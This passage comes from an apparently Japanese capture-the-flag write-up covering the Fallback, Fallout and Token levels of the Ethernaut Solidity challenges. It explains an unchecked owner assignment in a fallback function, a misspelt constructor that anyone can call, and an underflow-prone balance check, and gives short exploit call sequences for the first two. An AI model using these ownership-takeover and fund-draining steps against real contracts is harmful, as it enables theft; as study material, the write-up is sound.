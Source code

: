 Fallbackメソッドで `msg.sender` の中身をチェックせずに、 `owner` に代入して
いる。 あとは、 `require` の中身の条件を満たしてやれば良い ので、 fallbackメソ
ッドを呼び出す前に、`.contribute()` を 呼び出して `contributions` を増やしてお
く。

```solidity
contract.contribute({value: 1})
contract.send(1)
contract.withdraw()
```

## 2. Fallout

```solidity
contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  ...
}
```

コントラクトのコンストラクタ名にタイポがあり、ただのメソッドになってしまってい
る。

```solidity
await contract.Fal1out()
```

こんなバグ本当に起きるのかという気がするが、リファクタリング漏れで実際に
発生したことがあるらしい。

## 3. Token

```solidity
contract Token {
  mapping(address => uint) balances;
  uint public totalSupply;

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  ...
}
```
